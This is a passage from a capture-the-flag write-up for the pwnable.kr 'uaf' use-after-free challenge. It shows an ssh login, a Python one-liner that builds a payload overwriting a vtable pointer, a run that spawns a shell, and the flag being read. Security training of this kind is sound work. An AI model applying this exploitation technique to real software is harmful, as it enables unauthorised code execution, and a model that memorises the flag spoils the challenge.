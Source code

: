 ```sh
#uid=0(root) gid=0(root) groups=0(root)
```

# Flag

```sh
root@kali:~/CTF/UAF# ssh uaf@pwnable.kr -p2222 
uaf@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|
                                                                     
- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Thu Mar 23 09:31:11 2017 from 2.105.190.96
uaf@ubuntu:~$ python -c 'import struct;import sys;sys.stdout.write(struct.pack("<I", 0x601588) + "\x00"*(24-4))' > /tmp/exploit
uaf@ubuntu:~$ ./uaf 24 /tmp/exploit
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
yay_f1ag_aft3r_pwning

```